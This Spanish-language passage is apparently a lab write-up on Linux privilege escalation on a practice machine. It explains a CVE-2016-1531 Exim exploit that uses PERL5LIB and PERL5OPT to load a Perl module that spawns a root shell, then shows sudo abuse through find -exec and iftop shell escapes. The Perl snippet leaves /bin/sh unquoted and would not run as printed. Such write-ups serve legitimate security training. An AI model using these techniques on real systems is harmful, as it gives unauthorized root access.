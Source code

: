 **¿Qué se escribe en el archivo?**
Es un pequeño código en lenguaje Perl:
```Perl
package root;
use strict;
use warnings;

system(/bin/sh);
```
1. En primer lugar, define un paquete Perl llamado `root`
2. Al ser cargado, ejecuta inmediatamente `system(/bin/sh)`, lo que lanza una shell del sistema
3. Si Perl lo ejecuta como root... 🔓 La shell también es de root

**Desglose de la ejecución de exim**

Para entender la línea del script `PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps`, tenemos que verlo así:
- `PERL5LIB=/tmp` Esto le dice a Perl que **busque módulos en `/tmp`**. Esto cobra sentido si recordamos que el mismo script creó previamente un módulo Perl en `/tmp/root.pm` 
- `PERL5OPT=-Mroot` Le dice a Perl: **“Carga automáticamente el módulo `root` al iniciar”**.
- `/usr/exim/bin/exim -ps` Esto ejecuta Exim con la opción `-ps`, que:
	- Lanza Exim como si estuviera procesando correos en modo **queue run**   
	- Si Exim fue compilado con soporte Perl embebido y sin sandbox, **carga el módulo y ejecuta `system(/bin/sh)` como root**

**🎯 Resultado**
- Exim carga el módulo `root.pm`
- Perl ejecuta `system("/bin/sh")`
- **Obtenemos una shell como root** si la explotación tiene éxito

**El exploit puede ser un poco enrevesado**, pero nosotros solo nos preocupamos de ejecutarlo con el comando
```bash
./cve-2016-1531.sh
```
**🎉 Escalada conseguida**


## 🔐SUDO

El comando `sudo -l` lista los comandos que el usuario actual **tiene permitidos ejecutar con `sudo`**, sin necesidad de contraseña si aparece `NOPASSWD:`. 

Algunos de los comandos tienen escalada de privilegios, más información disponible en [este repositorio](https://gtfobins.github.io/)

**En el caso de la máquina de práctica, se puede escalar privilegios de las siguientes formas:**
- **find** → `find` tiene una opción `-exec` que permite ejecutar comandos sobre los archivos encontrados. Si `find` se ejecuta como root, el comando ejecutado (`/bin/bash`) también será como root.

```bash
sudo find . -exec /bin/bash \;
```


- **Iftop** → Algunas versiones de `iftop` permiten ejecutar comandos del sistema con `!`. Si ejecutas `iftop` con `sudo`, el shell lanzado con `!/bin/sh` también se ejecuta como root. (NOTA: Este comportamiento puede no estar presente en todas las versiones.)
